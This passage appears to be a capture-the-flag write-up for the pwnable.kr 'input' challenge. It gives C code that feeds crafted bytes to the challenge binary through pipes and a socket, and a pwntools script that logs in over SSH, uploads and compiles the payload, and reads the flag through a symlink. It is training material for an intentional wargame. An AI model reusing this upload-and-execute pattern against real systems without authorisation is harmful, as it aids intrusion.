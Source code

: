 ```c

	int pipe_stdin[2];
	int pipe_stderr[2];

	if( pipe(pipe_stdin) < 0 || pipe(pipe_stderr) < 0 ) {
		printf("Someone blocked the plumbing\n");
		return 1;
	}

	pid_t p = fork();

	if ( p < 0 ) {
		printf("Fork forked the fork\n");
		return 1;
	}

	if ( p == 0 ) {
		close(pipe_stdin[0]);
		close(pipe_stderr[0]);
		write(pipe_stdin[1], "\x00\x0a\x00\xff", 4);
    write(pipe_stderr[1], "\x00\x0a\x02\xff", 4);
		close(pipe_stdin[1]);
		close(pipe_stderr[1]);

		sleep( 5 );
		socket_communication( arg_list );
		wait( NULL );

		return 0;
	} else {
		close(pipe_stdin[1]);
		close(pipe_stderr[1]);
		dup2(pipe_stdin[0], 0);
		dup2(pipe_stderr[0], 2);

		close(pipe_stdin[0]);
		close(pipe_stderr[0]);

		execve("/home/input2/input", arg_list, environ);
	}
}
```

Now we can just write a pwn script for loading our payload onto the server, compile, execute and remove the payload from the server.

```python
from pwn import *
import random, string

def rstring(length):
    return ''.join([random.choice(string.ascii_uppercase + string.digits) for _ in range(length)])

attack_dir = '/tmp/' + rstring(16)
s = ssh(host='pwnable.kr', port=2222, user='input2', password='guest')
s.run_to_end('mkdir ' + attack_dir + '; cd ' + attack_dir)
s.set_working_directory(attack_dir)
s.upload_file('payload.c')
s.run_to_end('gcc -o payload payload.c')
s.run_to_end('ln -sf /home/input2/flag flag')

p = s.process(['./payload', attack_dir])
print(p.recvall())
s.run_to_end('rm -rf ' + attack_dir)
```